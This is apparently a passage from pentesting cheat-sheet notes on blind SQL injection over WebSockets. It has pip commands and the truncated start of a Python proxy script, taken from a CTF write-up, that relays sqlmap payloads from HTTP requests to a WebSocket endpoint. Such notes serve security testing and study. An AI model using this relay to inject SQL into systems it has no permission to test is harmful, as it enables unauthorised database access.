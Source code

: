 > https://stackoverflow.com/questions/40212252/python-websockets-module-has-no-attribute/40212593#40212593

> https://pypi.org/project/websocket-client-py3/

Try to install potentially missing modules first.

```c
$ pip install websocket-client
$ pip3 install websocket-client
$ pip install websocket-client-py3
$ pip3 install websocket-client-py3
$ pip install sqlmap-websocket-proxy
$ pip3 install sqlmap-websocket-proxy
```

If this does not help, uninstall the modules manually
and re-install them afterwards.

```c
$ pip install websocket-client
$ pip3 install websocket-client
$ pip uninstall websocket-client-py3
$ pip3 uninstall websocket-client-py3
```

#### sqlmap Web Socket Proxy Python Script

> https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html

```c
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
  ws = create_connection(ws_server)
  # If the server returns a response on connect, use below line 
  #resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
  
  # For our case, format the payload in JSON
  message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
  data = '{"employeeID":"%s"}' % message

  ws.send(data)
  resp = ws.recv()
  ws.close()

  if resp:
    return resp
  else:
    return ''

def middleware_server(host_port,content_type="text/plain"):

  class CustomHandler(SimpleHTTPRequestHandler):
    def do_GET(self) -> None:
      self.send_response(200)
      try:
        payload = urlparse(self.path).query.split('=',1)[1]
      except IndexError:
        payload = False
        
```